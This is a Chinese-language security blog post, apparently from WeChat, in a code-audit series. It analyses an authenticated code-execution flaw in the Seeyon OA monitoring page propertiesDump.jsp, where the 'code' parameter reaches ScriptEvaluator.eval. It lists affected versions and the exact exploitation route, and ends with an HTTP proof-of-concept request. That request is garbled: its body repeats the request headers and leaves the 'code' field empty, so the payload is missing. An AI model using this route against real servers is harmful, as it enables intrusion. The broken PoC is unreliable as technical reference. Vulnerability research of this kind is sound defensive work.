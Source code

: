 致远oa代码审计系列八-后台监控命令执行漏洞分析
========================

原创 作者:archive 公号:安全回忆录 发布时间:2023-12-11 22:03 发表于北京

原文地址：[致远oa代码审计系列八-后台监控命令执行漏洞分析](https://mp.weixin.qq.com/s/YA1bx0c0DcAZjlVV--kL0A)

**漏洞描述:**

致远OA登录后用户可通过监控功能，后台监控功能没有对用户传入参数进行任何过滤检测,存在代码执行漏洞。该漏洞为后台漏洞, 无法配合致远OA代码审计系列二中提到的权限绕过进行利用,为后台漏洞。

******适用版本:******

G6\_V5.6SP1,V5.6,V5.70,V5.71,V5.71SP1,V5.80,V5.80sp1&G6N\_V3.0,V3.0sp1、V5&G6\_V5.6至V8.0SP2全系列版本、V5&G6&N\_V8.1至V8.1SP1全系列版本。

**漏洞分析:**

漏洞位置:propertiesDump.jsp, 当传入的action参数为downloadTest时 ,会将code参数直接带入ScriptEvaluator.eval中, 造成代码执行漏洞。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuHk1AGrynWPdDNG6ibcas2Krpia7wm9W6AXaUIbrGs2M22aSmDR1WPkQ7vctGwIRKVydyVKxXRe3NA/640?wx_fmt=png&from=appmsg)

全局搜索propertiesDump发现在spring-sysmgr-controller.xml中有如下配置:

```javascript
<bean name="/ctp/sysmgr/monitor/propertiesDump.do" class="org.springframework.web.servlet.mvc.CTPUrlFilenameViewController" />
```

所有的监控路由都是通过CTPUrlFilenameViewController控制器,查看该控制器发现继承了Spring Framework的UrlFilenameViewController 类，重写了其中的 getViewNameForRequest方法,根据条件返回不同的视图名称，从而实现定制化的视图解析逻辑。该类的主要作用是根据请求的 URI来确定视图。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuHk1AGrynWPdDNG6ibcas2KG5uBmvscChTw9KiaVibScx7s7Jnibutgrm7BQyqJwEaGeZo93ZIbiapOFQ/640?wx_fmt=png&from=appmsg)

查找视图解析器的配置,Spring MVC 在解析视图时会在 /WEB-INF/jsp/ 目录下寻找以 .jsp 结尾的文件。

在CTPUrlFilenameViewController中会通过extractViewNameFromUrlPath从 URL 路径中提取视图名称。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuHk1AGrynWPdDNG6ibcas2KLYSFibT0Ubb6OwOguaibmuSeXertWo7Sy3bn5dsfPzds4R3rNANTrymw/640?wx_fmt=png&from=appmsg)

所以构造路由:/seeyon/ctp/sysmgr/monitor/propertiesDump.do?action=downloadTest即可访问到该jsp文件。

在返回视图之前会判断OrgHelper.hasAdminResouceCode("system\_monitor")

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuHk1AGrynWPdDNG6ibcas2Kx4lAGW0POJP6FnOAUcZBvZlhiankABdIBZxySKQU1YLEGJVQYoG5y0A/640?wx_fmt=png&from=appmsg)

当非管理员访问时会直接返回404,由于这里进行了一次权限校验, 导致之提到的权限绕过无法直接利用。

最终利用路径

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuHk1AGrynWPdDNG6ibcas2K7Bpk1TAfE9Kf3PdscV2ACjddTUGysNnicUPBuGHolaOWiaRq3dW2b1ibA/640?wx_fmt=png&from=appmsg)

最终利用poc:  

```http
POST /seeyon/ctp/sysmgr/monitor/propertiesDump.do?action=downloadTest HTTP/1.1
Host: 192.168.246.4
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.246.4/seeyon/main.do?method=main&fl=1&switchToAdmin=1
Cookie: JSESSIONID=4DA49B9786097DF96AFA43A0A1945086; login_locale=zh_CN; avatarImageUrl=3003611276195810894; loginPageURL=
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3117


code=POST /seeyon/ctp/sysmgr/monitor/propertiesDump.do?action=downloadTest HTTP/1.1
Host: 192.168.246.4
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.246.4/seeyon/main.do?method=main&fl=1&switchToAdmin=1
Cookie: JSESSIONID=B111C882C1973B2E637790C02915F0F8; login_locale=zh_CN; avatarImageUrl=7194165855106450215; loginPageURL=
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 2524


code=
```

**总结:**

该漏洞为后台漏洞,后台监控功能没有对用户传入参数进行任何过滤检测导致, 致远官方于2022年8月5日发布补丁修复该漏洞。